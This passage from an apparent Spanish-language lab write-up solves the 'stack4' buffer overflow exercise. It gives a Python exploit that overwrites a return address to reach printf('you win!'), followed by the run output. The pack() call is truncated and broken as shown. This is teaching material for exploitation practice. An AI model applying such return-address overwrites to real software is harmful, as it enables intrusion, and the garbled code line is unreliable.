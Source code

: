 * Armamos un archivo en Python para ingresar el input: exploit.py

```
#! /usr/bin/env python
"""Uso: ./exploit.py | ./stack4 """
import sys
from struct import pack
   
ret_addr = 0x0804849c                               #addr de printf("you win!")
   
exploit  = "A" * 80                                 #fill buf
exploit += "BBBB"                                   #fill cookie
exploit += "CCCC"                                   #fill ebp
exploit += pack(", ret_addr)                     #set return address
   
sys.stdout.write(exploit)
```

> **Consideraciones**: en python es posible convertir a formato little endian una dirección importando `struct` y usando la función `pack`: `pack("`

1.  `Ejecutamos el exploit`

    ```
    user@abos:~$ ./exploit.py | ./stack4
    buf: bffff5a4 cookie: bffff5f4
    you win!
    Segmentation fault
    user@abos:~$
    ```

    La condición que evalúa el valor de `cookie` es falsa, pero después de ejecutarse el código de `main()` la dirección de retorno apunta a `printf()`, por lo que se salta allí y se imprime `you win!` por pantalla.

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (36).png>)
